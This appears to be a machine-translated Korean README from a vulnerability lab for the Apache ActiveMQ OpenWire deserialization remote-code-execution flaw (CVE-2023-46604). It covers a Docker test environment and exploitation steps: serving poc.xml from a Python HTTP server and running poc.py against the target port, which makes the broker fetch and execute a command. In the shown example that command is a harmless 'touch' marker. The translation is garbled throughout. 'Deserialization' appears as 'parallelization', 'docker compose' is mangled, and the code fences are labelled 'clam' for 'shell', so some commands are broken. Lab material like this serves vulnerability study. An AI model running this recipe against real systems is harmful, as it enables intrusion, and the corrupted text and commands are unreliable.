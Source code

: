 # Apache ActiveMQ OpenWire 프로토콜 병렬화 RCE(CVE-2023-46604)

[中文版本(중국어판)] (README.zh-cn.md )

Apache ActiveMQ는 미국 Pachitea(Apache) 소프트웨어 재단에서 개발한 오픈 소스 메시징 미들웨어로 자바 메시징 서비스, 클러스터링, 스프링 프레임워크 등을 지원합니다.

OpenWire 프로토콜은 ActiveMQ에서 여러 다른 언어 및 플랫폼에서 ActiveMQ에 대한 네이티브 액세스를 허용하도록 설계되었습니다. Apache ActiveMQ 5.18.2 이전 버전은 역직렬화 취약성의 영향을 받았습니다. 이 취약성은 네트워크 액세스 권한을 가진 원격 공격자가 OpenWire 프로토콜의 직렬화된 클래스 유형을 조작하여 임의의 셸 명령을 실행하여 에이전트의 클래스 경로에 있는 모든 클래스를 인스턴스화할 수 있도록 할 수 있습니다.

참조:

- <https://activemq.apache.org/news/cve-2023-46604 >
- <https://xz.aliyun.com/t/12929 >
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/ >
- <https://forum.butian.net/share/2566 >

## 환경설정

ActiveMQ는 다음 2개의 포트를 수신합니다:

| 기본 포트 | 기본 조건 |
|--------------|--------------------------------------|
| 8161(웹) | 원격접속은 구성이 필요합니다 |
| 61616(tcp) | 원격 접근 허용 |

포트 61616에 병렬화 문제가 있습니다.

ActiveMQ 5.17.3 서버를 실행하려면 다음 명령을 입력합니다:

```
도커 컴포지트 -d
```

61616번 포트만 사용하면 되지만 악용 전에 서비스가 성공적으로 시작되었는지 확인하려면 http://your-ip:8161에 접속하십시오.

## 악용

Python3 http.server 모듈을 사용하여 [poc.xml](poc.xml) 파일이 있는 폴더에서 HTTP 서버를 빠르게 시작할 수 있습니다:

'''조개
python3 -m http.server 6666
```

그런 다음 [poc.py ](poc.py )을 실행합니다:

'''조개
python3 poc.py 대상 포트 http server/poc.xml의 http://ip
```

다음 명령을 사용하여 ActiveMQ 컨테이너 내부를 확인할 수 있습니다:

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

touch /tmp/activeMQ-RCE-success가 성공적으로 실행되었음을 나타내는 출력이 표시되면 악용이 작동했습니다.

![01.png](01.png)